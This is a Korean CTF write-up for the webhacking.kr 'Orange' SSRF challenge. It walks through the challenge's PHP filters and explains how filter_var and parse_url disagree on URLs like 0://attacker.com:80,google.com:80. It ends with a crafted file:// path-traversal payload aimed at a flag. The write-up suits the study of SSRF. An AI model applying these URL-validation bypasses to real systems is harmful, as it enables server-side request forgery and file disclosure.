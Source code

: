 ```yaml
---
title: ["[Webhacking.kr] Orange🍊 (ssrf - 300)"]
date: 2024-12-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, ssrf]
---
```


```php
<?php
  if($_GET['view_source']){ highlight_file(__FILE__); exit; }
  if($_GET['view_version']){ echo phpversion(); exit; }
  if($_GET['ls']){ system("ls -a"); exit; } // to prove for about there is not hidden files in this directory. you dont have to run dirbuster!
  if(isset($_GET['url'])){
    $url = $_GET['url'].".txt";
    if(!filter_var($url, FILTER_VALIDATE_URL)) exit("invalid url");
    if(!preg_match("/http:\/\/webhacking.kr:10009\//",$url)) exit("invalid server");
    if(preg_match("/@|#|\(|\)|\\$|`|'|\"|_|{|}|\?/",$url)) exit("you are not orange");
    if((parse_url($url)['host'] !== "webhacking.kr") || (parse_url($url)['port'] !== 10009)) exit("invalid host or port");
    if(parse_url($url)['user'] || parse_url($url)['pass']) exit("you are not orange");
    include $url;
  }
  echo "<hr><a href=./?url=http://webhacking.kr:10009/cat>cat</a> <a href=./?url=http://webhacking.kr:10009/dog>dog</a> <hr><a href=./?view_source=1>view-source</a> <a href=./?view_version=1>view-version</a> <a href=./?ls=1>ls</a>";
?>
```

* .txt 확장자가 자동으로 추가됨
* `FILTER_VALIDATE_URL`로 유효한 URL인지 검사
* URL에 `http://webhacking.kr:10009/` 문자열이 있는지 검사
* 특수문자 `@`,`#`,`(`,`)`,`$`,`` ` ``,`'`,`"`,`_`,`{`,`}`,`?`, 사용 불가
* host가 "webhacking.kr"이고 port가 10009인지 검사
* URL에 user와 pass 정보가 없어야 함

이번 문제를 풀기 위해서 이해해야할 개념을 먼저 정리해보자.  

### FILTER_VALIDATE_URL

PHP에서 URL의 형식이 RFC 표준을 따르는지 검증하는 필터이다.  
1. scheme이 있어야 함 - http://, https://등
2. host가 있어야 함
3. 유효한 문자만 사용되어야 함

### Bypass URL Validation and Regular Expression

[A New Era of SSRF](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) 2017 Black Hat에서 Orange Tsai가 발표한 내용이다.  
(아마 문제의 제목이 orange인 이유도 이것 때문이지 않을까..)

URI RFC 구문의 특징으로 `;`, `,`와 같은 특수문자들은 URL의 scheme-specific 부분에서 특별한 용도로 예약되어 있다.  
이런 특수문자들이 포함된 URL을 파싱할 때, `filter_var()`과 같은 URL 검증 함수와 실제 HTTP 요청 시의 인식이 다를 수 있다.  
이런 URL 파싱의 불일치를 이용하여 SSRF를 일으킬 수 있다.  

```php
<?php
$url = $argv[1] ;

// URL Validating
$is_valid = filter_var($url, FILTER_VALIDATE_URL);
echo "Valid URL: " . ($is_valid ? "Yes" : "No") . "\n";

// URL Parsing
$parsed = parse_url($url);
if ($parsed) {
    echo "[Scheme] : " . (isset($parsed['scheme']) ? $parsed['scheme'] : 'N/A') . "\n";
    echo "- Host: " . (isset($parsed['host']) ? $parsed['host'] : 'N/A') . "\n";
    echo "- Port: " . (isset($parsed['port']) ? $parsed['port'] : 'N/A') . "\n";
    echo "- Path: " . (isset($parsed['path']) ? $parsed['path'] : 'N/A') . "\n";
} else {
    echo "Could not parse URL\n";
}
```

PHP 7.3버전에서 `filter_var()`함수와 `parse_url()`함수가 어떻게 동작하는지 자세히 알아보자.  

```
$ php urlval.php http://attacker.com,google.com
Valid URL: No
[Scheme] : http
[Host]   : attacker.com,google.com
[Port]   : N/A
[Path]   : N/A
```
단순히 `,`과 같은 delimiter를 사용하는 것으로는, `filter_var()`함수를 우회하지 못한다.  

```
$ php urlval.php 0://attacker.com,google.com
Valid URL: Yes
[Scheme] : 0
[Host]   : attacker.com,google.com
[Port]   : N/A
[Path]   : N/A
``` 
 `http://` 대신 `0://`을 사용한다면, `filter_var()`를 우회할 수 있다.  
 하지만, `Host`에 `;google.com`이 포함되어, `curl` 등으로 정상적으로 통신을 요청하지 못한다.  

```
$ php urlval.php 0://attacker.com:80,google.com:80
Valid URL: Yes
[Scheme] : 0
[Host]   : attacker.com,google.com
[Port]   : 80
[Path]   : N/A
``` 
위와 같이 포트까지 지정을 해준다면 curl이 `Host`를 읽을 때, 포트 앞까지만 읽어 `attacker.com`으로 통신이 성공한다.  


### Payload 구성
위의 개념으로 페이로드를 구성해보자.  
1. `filter_var()` 함수를 통과해야 함.
2. `http://webhacking.kr:10009/` 문자열을 포함해야 함.
3. `Host`는 `webhacking.kr`, `Port`는 `10009`로 인식돼야 함.

$ php urlval.php file://webhacking.kr:10009/,http://webhacking.kr:10009/../../../../../flag
